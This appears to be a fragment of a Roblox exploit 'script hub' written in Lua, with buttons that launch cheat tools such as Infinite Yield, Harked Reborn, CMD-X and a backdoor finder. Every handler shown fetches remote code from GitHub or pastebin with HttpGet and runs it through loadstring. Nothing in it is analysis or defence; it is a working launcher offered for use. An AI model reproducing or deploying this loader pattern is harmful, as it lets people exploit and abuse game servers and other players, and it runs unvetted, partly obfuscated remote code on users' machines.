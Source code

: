 	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
	end)

end
coroutine.wrap(YOPROWF_fake_script)()
local function VDBJIB_fake_script() -- HarkedReborn.LocalScript 
	local script = Instance.new('LocalScript', HarkedReborn)

	script.Parent.MouseButton1Click:Connect(function()
		game:GetService("StarterGui"):SetCore("SendNotification", {
			Title = "Harked reborn Loading",
			Text = "This might take time due to obfuscator",
			Duration = math.huge,
			Button1 = "Ok",
		})
		wait(3)
		loadstring(game:HttpGet("https://lolpippiou.github.io/HarkedReborn/HarkedReborn.lua"))();
	end)
end
coroutine.wrap(VDBJIB_fake_script)()
local function POCHPT_fake_script() -- Backdoorfinder.LocalScript 
	local script = Instance.new('LocalScript', Backdoorfinder)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
	end)

end
coroutine.wrap(POCHPT_fake_script)()
local function OIWLCH_fake_script() -- CMDX.LocalScript 
	local script = Instance.new('LocalScript', CMDX)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/CMD-X/CMD-X/master/Source", true))()
	end)
end
coroutine.wrap(OIWLCH_fake_script)()
local function UEWVRMS_fake_script() -- UnanchPlr.LocalScript 
	local script = Instance.new('LocalScript', UnanchPlr)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/y2yFfXw3", true))();
	end)
end
coroutine.wrap(UEWVRMS_fake_script)()
local function ETRQ_fake_script() -- Ccanon.LocalScript 
	local script = Instance.new('LocalScript', Ccanon)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/4hqcYBFb"))();
	end)
end
coroutine.wrap(ETRQ_fake_script)()
local function RJNKBZ_fake_script() -- humanoidel.LocalScript 
	local script = Instance.new('LocalScript', humanoidel)
